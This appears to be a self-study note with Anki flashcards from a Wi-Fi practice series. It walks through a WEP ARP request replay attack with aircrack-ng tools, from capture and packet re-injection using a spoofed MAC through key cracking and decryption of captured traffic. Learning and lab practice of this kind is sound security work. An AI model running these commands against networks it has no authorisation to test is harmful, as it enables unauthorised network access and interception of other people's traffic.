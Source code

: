 # Chain #19: ARP Request Replay Attack

## Purpose
Turn a captured ARP request into a high‑volume IV generator to speed up WEP key recovery with aircrack‑ng.

---
## Key Terms

- **IV (Initialization Vector)**: 24‑bit nonce prepended to the WEP key for RC4. Collecting many IVs enables statistical key recovery.
- **ARP (Address Resolution Protocol)**: Small, easily recognizable broadcast packets in LANs; ideal for replay because APs respond quickly.
- **ARP Request Replay (aireplay‑ng `-3`)**: Listens for a valid ARP request, re‑injects it to the AP, which re‑sends it repeatedly with new IVs.
- **PTW vs. Korek/FMS**: Aircrack‑ng’s default **PTW** statistical attack needs fewer IVs than older **Korek/FMS** methods.

---
## Step‑by‑Step Workflows

### 1) Enable monitor mode (see Chain 01/03 for background)

```bash
sudo airmon-ng start wlan0
```

- If warned about NetworkManager / wpa_supplicant, consider: `sudo airmon-ng check kill`.    
- Confirm:

```bash
iwconfig
# Expect: wlan0mon  IEEE 802.11  Mode:Monitor ...
```

### 2) Passive capture on the target AP (collect frames + IVs)

Lock to the AP’s channel and write captures to disk:

```bash
sudo airodump-ng wlan0mon -c 1 -w WEP
# -> creates WEP-01.cap (and related files)
```

- Optional focus on one BSSID: add `--bssid <AP_BSSID>`.

### 3) Launch ARP Request Replay (in a second terminal)

```bash
sudo aireplay-ng -3 -b B2:D1:AC:E1:21:D1 -h 4A:DD:C6:71:5A:3B wlan0mon
```

- `-3` = ARP request replay mode.
- `-b` = target AP BSSID.
- `-h` = your (spoofed or actual) client MAC used for injection.
- Tip: If you see **“The interface MAC ... doesn’t match the specified MAC (-h)”**, align them:

```bash
sudo ifconfig wlan0mon hw ether 4A:DD:C6:71:5A:3B
```

- Keep **airodump‑ng** running to capture replies while aireplay‑ng re‑injects.
- Healthy output looks like rapidly rising “got ARP requests … sent … (XXX pps)”.

### 4) Crack the WEP key with aircrack‑ng

After enough IVs accumulate in `WEP-01.cap`, attempt cracking:

```bash
sudo aircrack-ng -b B2:D1:AC:E1:21:D1 WEP-01.cap
# Default: PTW attack when applicable
```

- If you explicitly want Korek/FMS heuristics:

```bash
sudo aircrack-ng -K WEP-01.cap
```

### 5) Use the recovered key

Two common follow‑ups:

- **Connect** to the WEP network (see Chain 07’s WEP config with `wpa_supplicant`).    
- **Decrypt the capture** offline for analysis:

```bash
sudo airdecap-ng -w <WEP_hex_key> WEP-01.cap
# -> WEP-01-dec.cap
```

---
## Reference Snippets / Flags

- Monitor‑mode check: `iwconfig` → look for `Mode:Monitor`.    
- Airodump‑ng essentials:
    - `-c <ch>`: lock channel.
    - `--bssid <AP>`: stick to one AP.
    - `-w <prefix>`: write capture files.
- Aireplay‑ng (ARP replay):
    - `-3`: ARP request replay.
    - `-b <BSSID>`: target AP MAC.
    - `-h <STA>`: sender MAC used in injected frames.
- Aircrack‑ng:
    - default PTW (when data supports it).
    - `-K`: Korek/FMS methods.

---
## Summary

1. Put your NIC in **monitor mode**. 2) **Capture** on the AP’s channel with `airodump-ng`. 3) **Re‑inject** ARP requests with `aireplay-ng -3` to force the AP to emit many **new IVs**. 4) **Crack** with `aircrack-ng` (PTW by default). 5) **Use** the key to connect or decrypt captures.    

---
## Appendix – Fact‑Check Notes

- **Mechanics of ARP Request Replay** (capture ARP → re‑inject → AP resends with new IVs): Aircrack‑ng wiki “ARP request reinjection”. aircrack-ng.org/doku.php?id=arp-request_reinjection    
- **Aireplay‑ng purpose & `-3` attack**: Aircrack‑ng tool page. aircrack-ng.org/doku.php?id=aireplay-ng
- **PTW vs. FMS/Korek data needs**: Sources vary by dataset and success threshold. Aircrack‑ng docs emphasize “very few packets” for PTW; Wikipedia summarizes research as ~35–40k packets for ~50% success with PTW and hundreds of thousands to ~1M+ for FMS/Korek depending on conditions. aircrack-ng.org/doku.php?id=aircrack-ng ; en.wikipedia.org/wiki/Aircrack-ng
- **Using Airdecap‑ng after key recovery**: See Chain 05 in this series for exact flags and workflow.

---

```anki
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

R19a1PtW01	Basic	Ops::WiFi Gym::Chain 19: ARP Request Replay	What does the aireplay-ng <code>-3</code> attack do?	Listens for a valid ARP request and replays it so the AP resends it with new IVs.	wifi
R19a1PtW02	Basic	Ops::WiFi Gym::Chain 19: ARP Request Replay	Why are ARP packets ideal for replay when cracking WEP?	They’re small broadcasts that trigger immediate AP responses, quickly generating many IVs.	wifi
R19a1PtW03	Basic (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	Which command enables monitor mode on <code>wlan0</code>?	<code>sudo airmon-ng start wlan0</code>	wifi
R19a1PtW04	Basic (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	Which command confirms that <code>wlan0mon</code> is in monitor mode?	<code>iwconfig</code>	wifi
R19a1PtW05	Basic (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	Which <code>airodump-ng</code> command locks to channel 1 and writes to prefix <code>WEP</code> using <code>wlan0mon</code>?	<code>sudo airodump-ng wlan0mon -c 1 -w WEP</code>	wifi
R19a1PtW06	Basic (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	Which <code>aireplay-ng</code> command launches an ARP replay against BSSID <code>B2:D1:AC:E1:21:D1</code> using client <code>4A:DD:C6:71:5A:3B</code> on <code>wlan0mon</code>?	<code>sudo aireplay-ng -3 -b B2:D1:AC:E1:21:D1 -h 4A:DD:C6:71:5A:3B wlan0mon</code>	wifi
R19a1PtW07	Basic (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	If aireplay-ng warns that the interface MAC doesn’t match <code>-h</code>, which command sets <code>wlan0mon</code> MAC to <code>4A:DD:C6:71:5A:3B</code>?	<code>sudo ifconfig wlan0mon hw ether 4A:DD:C6:71:5A:3B</code>	wifi
R19a1PtW08	Basic (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	Which <code>aircrack-ng</code> command attempts to crack BSSID <code>B2:D1:AC:E1:21:D1</code> from capture <code>WEP-01.cap</code>?	<code>sudo aircrack-ng -b B2:D1:AC:E1:21:D1 WEP-01.cap</code>	wifi
R19a1PtW09	Basic (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	Which option tells aircrack-ng to use Korek/FMS methods instead of the default?	<code>-K</code>	wifi
R19a1PtW10	Cloze (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	PTW vs. Korek/FMS: PTW generally needs {{c1::fewer IVs}} than Korek/FMS for WEP key recovery.		wifi
R19a1PtW11	Basic	Ops::WiFi Gym::Chain 19: ARP Request Replay	What file name does airodump-ng create when writing with prefix <code>WEP</code>?	<code>WEP-01.cap</code>	wifi
R19a1PtW12	Basic (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	After cracking, which tool decrypts <code>WEP-01.cap</code> with a recovered WEP key?	<code>airdecap-ng</code>	wifi
R19a1PtW13	Basic	Ops::WiFi Gym::Chain 19: ARP Request Replay	What does a rapidly increasing “got &lt;N&gt; ARP requests … (pps)” counter indicate during <code>-3</code> replay?	Successful ARP captures/reinjections generating many new IVs.	wifi
R19a1PtW14	Basic (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	In <code>aireplay-ng -3 -b &lt;AP&gt; -h &lt;STA&gt; wlan0mon</code>, what do <code>-b</code> and <code>-h</code> specify?	<code>-b</code> the AP BSSID; <code>-h</code> the client MAC used for injection.	wifi
R19a1PtW15	Cloze (type in the answer)	Ops::WiFi Gym::Chain 19: ARP Request Replay	A valid ARP request is {{c1::captured}}, then {{c1::replayed}} to the AP, which responds with new {{c1::IVs}}.		wifi
```